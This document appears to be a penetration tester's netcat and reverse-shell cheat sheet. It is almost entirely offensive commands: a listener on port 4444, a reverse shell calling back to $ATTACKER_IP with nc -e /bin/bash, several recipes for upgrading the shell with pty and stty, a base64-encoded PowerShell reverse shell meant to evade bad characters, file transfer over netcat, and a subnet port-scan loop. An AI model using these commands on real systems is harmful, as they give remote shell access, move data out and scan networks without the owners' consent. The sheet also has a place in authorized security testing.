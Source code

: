 #nc #reverse #listen #ncat #netcat
Open reverse shell listener on port 4444:
----
```bash
nc -nvlp 4444
```
Beautify reverse shell:
---
#rev #shell #rev-shell #beautify #upgrade

```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

press Ctrl + Z

```shell
stty raw -echo; fg
```
then
```shell
export TERM=xterm-256color
reset
alias ll='ls -lsa --color=auto'
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
stty columns 157 rows 30
```

or if no python present:

```bash
perl -e 'exec "/bin/bash";'
/bin/bash -i
```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
#CTRL+Z
stty raw -echo; fg
stty rows 34 columns 157;export TERM=xterm-256color;alias ll='ls -lsa --color=auto'
```
or
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
#CTRL+Z
stty raw -echo; fg
stty rows 34 columns 157;export TERM=xterm-256color;alias ll='ls -lsa --color=auto'
```
or
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
#CTRL+Z;
stty raw -echo; fg;
export SHELL=/bin/bash;export TERM=screen;stty rows 33 columns 156;reset
```
or
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
or
```shell
python -c 'import os; os.system("/bin/bash")'
```

or use:
`https://github.com/brightio/penelope`
Reverse shell from target to attacker
---
#rev-shell #rev #reverse #shell

```bash
nc -e /bin/bash $ATTACKER_IP 4444
```

Create Base64 shell and execute, filtering bad chars:

```bash
echo "powershell -e ";echo -n $REV_SHELL | base64 -w 0
```
Transfer file
---
#nc #file #transfer 

on receiver
```shell
nc -l -p 1234 > out.file
```
on sender
```shell
nc -w 3 $RECEIVER_IP 1234 < out.file
```
Port scanning:
---
#port-scan #scan

```bash
for i in $(seq 1 254); do nc -zv -w 1 $SUBNET.$i $PORT; done
```